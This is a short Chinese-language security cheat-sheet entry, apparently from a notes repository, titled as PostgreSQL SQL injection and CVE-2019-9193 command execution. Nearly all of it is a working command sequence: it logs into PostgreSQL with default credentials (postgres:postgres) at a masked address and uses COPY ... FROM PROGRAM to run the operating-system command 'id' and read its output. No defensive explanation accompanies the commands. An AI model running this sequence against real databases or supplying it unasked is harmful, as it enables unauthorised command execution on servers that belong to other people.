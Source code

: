 # ✔️ SQL注入 - SQL Injection

## PostgreSQL

### CVE-2019-9193 命令执行

```bash
# 登录了postgres之后 (默认凭证postgres:postgres)
psql -h 192.168.xxx.xxx -p 5437 -U postgres
\c postgres
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```



##



